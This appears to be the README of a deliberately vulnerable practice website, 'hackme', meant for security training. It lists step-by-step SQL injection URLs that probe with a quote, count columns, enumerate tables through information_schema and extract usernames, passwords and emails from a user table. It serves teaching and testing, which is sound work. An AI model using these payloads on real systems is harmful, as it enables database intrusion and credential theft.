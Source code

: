 hackme
======

website for code vulnerability testing (educational purposes only)

### sql injection steps

1. Check for vulnerability
http://hackme.dev/?id=%27

2. Find the number of columns
wait for error

http://hackme.dev/?id=1 order by 1
...
http://hackme.dev/?id=1 order by 7

3. check union select to identify columns
http://hackme.dev/?id=1 union all select 1,2,3,4,5,6

4. identify table names
http://hackme.dev/?id=1 union all select 1,table_name,3,4,5,6 from information_schema.tables

5. get columns from user table
http://hackme.dev/?id=1 union all select 1,column_name,3,4,5,6 from information_schema.columns where table_name='user'

6. now select * from user table
http://hackme.dev/?id=1 union all select 1,username,password,email,5,6 from user
